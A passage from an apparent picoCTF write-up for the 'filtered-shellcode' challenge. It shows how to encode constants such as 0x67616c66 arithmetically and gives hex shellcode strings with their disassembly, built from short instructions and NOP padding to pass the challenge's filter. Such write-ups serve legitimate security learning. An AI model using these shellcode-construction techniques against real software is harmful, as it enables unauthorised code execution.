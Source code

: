 The same goes for `0x67616c66`:

```python
>>> hex(2 * 5 * 19 * ((2 * 2 * 2 * 3 * 43)+1) * ((2 * 2 * 47 * 47)+1))
'0x67616c66'
```

So:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/filtered-shellcode]
└─$ pwn disasm "31C031DBB02FF7E0B302F7E3F7E3D1EB01D8509031C0B02BB303F7E3B302F7E3F7E3F7E3D1EB01D8B313F7E3B305F7E3B302F7E35B90F7E35090"
   0:    31 c0                    xor    eax,  eax
   2:    31 db                    xor    ebx,  ebx
   4:    b0 2f                    mov    al,  0x2f
   6:    f7 e0                    mul    eax
   8:    b3 02                    mov    bl,  0x2
   a:    f7 e3                    mul    ebx
   c:    f7 e3                    mul    ebx
   e:    d1 eb                    shr    ebx,  1
  10:    01 d8                    add    eax,  ebx
  12:    50                       push   eax
  13:    90                       nop
  14:    31 c0                    xor    eax,  eax
  16:    b0 2b                    mov    al,  0x2b
  18:    b3 03                    mov    bl,  0x3
  1a:    f7 e3                    mul    ebx
  1c:    b3 02                    mov    bl,  0x2
  1e:    f7 e3                    mul    ebx
  20:    f7 e3                    mul    ebx
  22:    f7 e3                    mul    ebx
  24:    d1 eb                    shr    ebx,  1
  26:    01 d8                    add    eax,  ebx
  28:    b3 13                    mov    bl,  0x13
  2a:    f7 e3                    mul    ebx
  2c:    b3 05                    mov    bl,  0x5
  2e:    f7 e3                    mul    ebx
  30:    b3 02                    mov    bl,  0x2
  32:    f7 e3                    mul    ebx
  34:    5b                       pop    ebx
  35:    90                       nop
  36:    f7 e3                    mul    ebx
  38:    50                       push   eax
  39:    90                       nop
```

Now we refactor `mov    dx,  0xfff` as:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/filtered-shellcode]
└─$ pwn disasm "509031C031D2B240B040F7E250905A9031C0B00129C25890"
   0:    50                       push   eax
   1:    90                       nop
   2:    31 c0                    xor    eax,  eax
   4:    31 d2                    xor    edx,  edx
   6:    b2 40                    mov    dl,  0x40
   8:    b0 40                    mov    al,  0x40
   a:    f7 e2                    mul    edx
   c:    50                       push   eax
   d:    90                       nop
   e:    5a                       pop    edx
   f:    90                       nop
  10:    31 c0                    xor    eax,  eax
  12:    b0 01                    mov    al,  0x1
  14:    29 c2                    sub    edx,  eax
  16:    58                       pop    eax
```